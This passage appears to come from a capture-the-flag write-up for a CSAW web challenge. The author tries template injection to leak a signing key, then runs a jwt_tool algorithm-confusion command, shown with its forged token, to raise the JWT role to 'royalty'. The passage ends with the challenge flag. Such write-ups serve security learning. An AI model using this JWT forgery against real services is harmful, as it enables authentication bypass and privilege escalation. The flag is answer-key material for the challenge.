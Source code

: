 
Still can't use it. Tried to use SSTI to get `{{PRIVATE_KEY}}` but doesn't print. We can print the `{{PUBLICKEY}}` though.


```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPIeM72Nlr8Hh6D1GarhZ/DCPRCR1sOXLWVTrUZP9aw2
```


Save it to a file and use algorithm confusion.


```bash
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJFZERTQSJ9.eyJST0xFIjoiY29tbW9uZXIiLCJDVVJSRU5UX0RBVEUiOiIwN18wOV8yMDI0X0FEIiwiZXhwIjo5NjMzMzcxNDI5OX0.53yJHr1ZxEYzRIrX2GEDao3kTbAY-W3y-9vOHZvRCmYtD49ty-EIo7KyjpwPEEmz-FxxUq2rynETCKiW_6ZIBQ -I -pc ROLE -pv royalty -pc CURRENT_DATE -pv 03_07_1341_BC -X k -pk pubkey

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJST0xFIjoicm95YWx0eSIsIkNVUlJFTlRfREFURSI6IjAzXzA3XzEzNDFfQkMiLCJleHAiOjk2MzMzNzE0Mjk5fQ.c5OwTPXb7qLz-R0mAhBj03jauzQEcnRBcor9KVyW8Q8
```


It doesn't work! I tried various formats for the public key, but all failed. I assumed I must need the `PRIVATE_KEY` but couldn't use `_` due to the filter list. I was confident there was some unicode issue; otherwise, why include all those symbols in the filter list?

After the CTF, I found out that key confusion was the correct approach (signing with the public key and switching to symmetric); I must have just had the wrong format for the public key. Overall, it's still a pretty cool challenge, but I think the public key should have been in a usable format, and the filter list was an unneeded distraction.

Flag: `csawctf{cat_fails_challenge}`
